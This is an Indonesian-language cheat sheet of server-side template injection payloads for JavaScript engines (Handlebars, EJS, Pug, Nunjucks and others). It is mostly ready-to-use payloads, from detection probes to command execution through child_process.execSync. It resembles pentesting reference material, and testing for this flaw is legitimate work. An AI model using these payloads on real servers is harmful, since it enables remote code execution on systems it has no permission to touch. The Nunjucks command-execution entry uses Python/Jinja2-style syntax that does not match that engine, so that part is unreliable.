 # Server Side Template Injection - JavaScript

> **Server-Side Template Injection (SSTI)** adalah kerentanan di mana penyerang dapat menyisipkan kode berbahaya ke dalam template di sisi server, sehingga server dapat mengeksekusi perintah arbitrer. Pada JavaScript, SSTI bisa terjadi pada engine seperti Handlebars, EJS, Pug, dan lainnya jika input pengguna tidak disaring dengan benar.

## Ringkasan

- [Library Template Populer](#library-template-populer)
- [Payload Dasar](#payload-dasar)
- [Payload Spesifik Engine](#payload-spesifik-engine)
- [Referensi](#referensi)

## Library Template Populer

| Nama Template     | Format Payload     | Bahasa Pemrograman   |
| ----------------- | ------------------ | -------------------- |
| HandlebarsJS      | `{{ }}`            | JavaScript (Node.js) |
| EJS               | `<% %>`            | JavaScript (Node.js) |
| Pug/Jade          | `#{ }`             | JavaScript (Node.js) |
| MustacheJS        | `{{ }}`            | JavaScript (Node.js) |
| NunjucksJS        | `{{ }}`            | JavaScript (Node.js) |
| Lodash/Underscore | `<% %>` / `{{= }}` | JavaScript (Node.js) |
| DotJS             | `{{= }}`           | JavaScript (Node.js) |
| DustJS            | `{}`               | JavaScript (Node.js) |
| HoganJS           | `{{ }}`            | JavaScript (Node.js) |
| TwigJS            | `{{ }}`            | JavaScript (Node.js) |
| VelocityJS        | `#set($x="") $x`   | JavaScript (Node.js) |
| VueJS             | `{{ }}`            | JavaScript (Node.js) |

## Payload Dasar

Coba payload berikut pada input yang dicurigai:

```handlebars
{{7*7}}
<%= 7*7 %>
#{7*7}
```

Jika output menjadi `49`, kemungkinan aplikasi rentan SSTI.

## Payload Spesifik Engine

### Handlebars

- **Injeksi Dasar:**
  ```handlebars
  {{this}}
  {{7*7}}
  ```
- **Eksekusi Perintah (versi rentan):**
  > Hanya bekerja pada versi Handlebars tertentu yang rentan.
  ```handlebars
  {{#with "s" as |string|}}
    {{#with "e"}}
      {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
          {{this.pop}}
          {{this.push "return require('child_process').execSync('id');"}}
          {{this.pop}}
          {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
              {{this}}
            {{/with}}
          {{/each}}
        {{/with}}
      {{/with}}
    {{/with}}
  {{/with}}
  ```

### EJS / Lodash / Underscore

- **Injeksi Dasar:**
  ```ejs
  <%= 7*7 %>
  ```
- **Eksekusi Perintah (jika tidak difilter):**
  ```ejs
  <%= require('child_process').execSync('id') %>
  ```

### Pug / Jade

- **Injeksi Dasar:**
  ```jade
  #{7*7}
  ```
- **Eksekusi Perintah (Node.js):**
  ```jade
  #{process.mainModule.require('child_process').execSync('id')}
  ```

### Nunjucks

- **Injeksi Dasar:**
  ```nunjucks
  {{7*7}}
  ```
- **Eksekusi Perintah (jika sandbox nonaktif):**
  ```nunjucks
  {{ cycler.__init__.__globals__.os.popen('id').read() }}
  ```

## Tips

- Selalu cek output aplikasi setelah mengirim payload.
- Gunakan variasi payload jika satu format tidak berhasil.
- Setelah engine teridentifikasi, cari dokumentasi exploitasi engine tersebut.
- Gunakan payload hanya di lingkungan legal (CTF/lab).

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
